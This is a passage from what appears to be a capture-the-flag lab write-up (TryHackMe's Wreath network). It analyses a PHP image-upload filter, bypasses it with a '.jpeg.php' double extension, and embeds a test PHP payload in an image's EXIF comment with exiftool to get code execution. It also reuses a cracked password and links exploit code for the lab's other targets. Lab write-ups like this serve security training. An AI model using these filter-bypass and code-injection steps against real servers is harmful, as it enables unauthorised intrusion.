        <body>
                <main>
                        <h1>Welcome Thomas!</h1>
                        <h2>Ruby Image Upload Page</h2>
                        <form method="post" enctype="multipart/form-data">
                                <input type="file" name="file" id="fileEntry" required, accept="image/jpeg,image/png,image/gif">
                                <input type="submit" name="upload" id="fileSubmit" value="Upload">
                        </form>
                        <p id=res><?php if (isset($res)){ echo $res; };?></p>
                </main>
        </body>
</html>
```

Interesting part is the filters here
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

This line has `getimagesize` method that checks if image has dimensions - returns `False` if file is not an image
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
```

This line checks for two conditions, if either fails, we get error message.
- Second condition checks if the file is not an image
- First condition split string by `.` into an array and checks second item
  - `image.jpeg` returns `["image", "jpeg"]`
  - But `image.jpeg.php` returns `["image","jpeg","php"]` and `jpeg` gets passed into the filter
  - This filter then checks if it is not in the array of `$goodExts`

After two conditions pass, the file gets moved into `uploads/` directory with original name
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
```

We also find a folder `/resources` which may be a directory on the web to check out

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls
commit-meta.txt  css  favicon.png  fonts  img  index.html  js  resources
```

_____________________________________

## Visit `/resources` endpoint

we can visit `http://10.200.85.100/resources` where we are greeted with a login prompt

![login prompt](./resources.png)

Try Thomas' hash that we cracked earlier

User: Thomas
Password: i<3ruby

.. And we're in

Upload a normal jpg file and access it through `/resources/uploads/FILE.jpg`

Upload success
![upload success](./uploadsuccess.png)

And we see our image
![upload access](./uploadaccess.png)

Now to upload an exploit to get webshell. We need to bypass the two filters
1. The file extension can be bypassed with `.jpeg.php`
2. The image size will require an actual image with shell injected in the exifdata, specifically the `Comment` field
   
Take a regular image and rename it with `.jpeg.php` extension

Run `exiftool` on the image
```
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php 
ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:30:57-04:00
File Access Date/Time           : 2021:04:23 09:30:57-04:00
File Inode Change Date/Time     : 2021:04:23 09:30:57-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 750
Image Height                    : 750
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x750
Megapixels                      : 0.562
```

There is also AV installed on this target. It may detect any default PHP webshell uploaded and alert the victim. The first step then is to create a proof of concept before we can work out an AV bypass.

Harmess PHP payload - `<?php echo "<pre>Test Payload</pre>"; die();?>` 

We add this to the image with exiftool
```
kali@kali:~/thm/wreath$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Neozer0.jpeg.php
    1 image files updated
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:35:37-04:00
File Access Date/Time           : 2021:04:23 09:35:37-04:00
File Inode Change Date/Time     : 2021:04:23 09:35:37-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo "<pre>Test Payload</pre>"; die(); ?>
Image Width                     : 750
Image Height                    : 750
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x750
Megapixels                      : 0.562
```

Now we upload this benign payload and access it on the browser to see that the test payload has worked and we are able to execute PHP code on the system!

![upload poc](./uploadpoc.png)

_____________________________________

## Exploit with AV Evasion 

</details>

## References

CVE-2019-15107: https://www.cvedetails.com/cve/CVE-2019-15107/

Webserver exploit: https://github.com/MuirlandOracle/CVE-2019-15107

Gitstack: https://www.exploit-db.com/exploits/43777
